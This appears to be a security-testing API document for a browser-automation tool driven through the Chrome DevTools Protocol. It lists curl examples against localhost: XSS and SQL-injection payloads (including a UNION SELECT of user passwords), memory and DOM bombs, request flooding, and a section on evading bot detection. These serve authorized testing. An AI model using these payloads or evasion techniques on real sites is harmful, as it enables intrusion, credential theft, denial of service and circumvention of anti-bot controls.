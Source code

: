 # Security Testing Domain API

Security testing examples and attack patterns for responsible testing.

## XSS Testing

### Basic XSS Payloads
```bash
# Test form XSS
curl -X POST http://localhost:8888/cdp/type \
  -d '{"text": "<script>alert(1)</script>", "selector": "#search"}'

# Test attribute injection
curl -X POST http://localhost:8888/cdp/type \
  -d '{"text": "\" onmouseover=\"alert(1)", "selector": "#name"}'

# Test JavaScript execution context
curl -X POST http://localhost:8888/cdp/execute \
  -d '{"code": "document.body.innerHTML = \"<img src=x onerror=alert(1)>\""}'
```

## SQL Injection Testing

### Basic SQLi Payloads
```bash
# Test single quote
curl -X POST http://localhost:8888/cdp/type \
  -d "{\"text\": \"' OR 1=1--\", \"selector\": \"#user_id\"}"

# Test union injection
curl -X POST http://localhost:8888/cdp/type \
  -d "{\"text\": \"1 UNION SELECT password FROM users--\", \"selector\": \"#search\"}"
```

## Memory Testing

### Memory Bomb
```bash
# Allocate large amounts of memory
curl -X POST http://localhost:8888/cdp/execute \
  -d '{"code": "let bomb = []; for(let i = 0; i < 1000000; i++) bomb.push(new Array(1000).fill(\"x\"));"}'

# Monitor memory usage
curl http://localhost:8888/cdp/performance/memory
```

## Malformed Data Testing

### Invalid Selectors
```bash
# Test with broken selectors
curl -X POST http://localhost:8888/cdp/click \
  -d '{"selector": "<<<invalid>>>"}'

# Test with null bytes
curl -X POST http://localhost:8888/cdp/type \
  -d "{\"text\": \"test\\u0000null\", \"selector\": \"#input\"}"
```

### Protocol Abuse
```bash
# Send malformed CDP commands
curl -X POST http://localhost:8888/cdp/command \
  -d '{"method": "Invalid.Method", "params": {"bad": "data"}}'

# Test with extreme values
curl -X POST http://localhost:8888/cdp/click \
  -d '{"x": 999999999, "y": -999999999}'
```

## DOS Testing

### Request Flooding
```bash
# Rapid screenshot requests
for i in {1..100}; do
  curl http://localhost:8888/cdp/screenshot > /dev/null &
done
```

### Resource Exhaustion
```bash
# DOM manipulation bomb
curl -X POST http://localhost:8888/cdp/execute \
  -d '{"code": "for(let i=0;i<10000;i++){document.body.appendChild(document.createElement(\"div\"));}"}'
```

## Security Headers Testing

### Check Response Headers
```bash
# Inspect security headers
curl -I http://localhost:8888/cdp/status

# Test CORS behavior
curl -H "Origin: https://evil.com" http://localhost:8888/cdp/status
```

## Responsible Testing Guidelines

⚠️ **IMPORTANT**: These examples are for **authorized testing only**

- **Own systems only**: Never test on systems you don't own
- **Controlled environment**: Use isolated test environments
- **Documented consent**: Ensure proper authorization
- **Responsible disclosure**: Report findings through proper channels
- **No harm**: Avoid causing damage or data loss

## Detection Bypass Testing

### Anti-Automation Evasion
```bash
# Test with realistic delays
curl -X POST http://localhost:8888/cdp/type \
  -d '{"text": "human", "selector": "#input"}'
sleep 2
curl -X POST http://localhost:8888/cdp/click \
  -d '{"selector": "#submit"}'

# Test stealth capabilities
curl http://localhost:8888/cdp/console/logs | grep -i "webdriver"
```

**Note**: CDP Ninja has successfully bypassed BrowserScan.net detection in testing, indicating potential gaps in current bot detection mechanisms.